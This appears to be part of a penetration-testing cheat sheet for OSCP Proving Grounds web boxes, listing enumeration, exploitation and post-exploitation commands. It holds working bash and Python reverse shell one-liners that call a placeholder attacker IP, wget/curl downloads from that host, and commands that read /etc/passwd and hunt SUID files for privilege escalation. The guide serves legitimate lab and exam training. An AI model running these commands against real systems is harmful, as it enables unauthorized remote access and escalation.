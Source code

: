 ### Web Enumeration
```bash
# Directory enumeration
feroxbuster -u http://<target> -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -r -x php,html,txt,js

# Parameter fuzzing
ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -u http://<target>/page.php?FUZZ=test

# Subdomain enumeration
gobuster vhost -u http://<target> -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
```

### Exploitation
```bash
# Reverse shells
bash -i >& /dev/tcp/<attacker_ip>/4444 0>&1
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<attacker_ip>",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

# File transfer
python3 -m http.server 8080
wget http://<attacker_ip>:8080/file
curl -O http://<attacker_ip>:8080/file
```

### Post-Exploitation
```bash
# System enumeration
whoami
id
uname -a
cat /etc/passwd
ls -la /home

# Privilege escalation
sudo -l
find / -perm -4000 2>/dev/null
find / -writable 2>/dev/null | grep -v proc
```

This comprehensive guide provides everything needed to master web application boxes in OSCP Proving Grounds Practice. Focus on consistent methodology, thorough documentation, and progressive difficulty increase for optimal exam preparation.
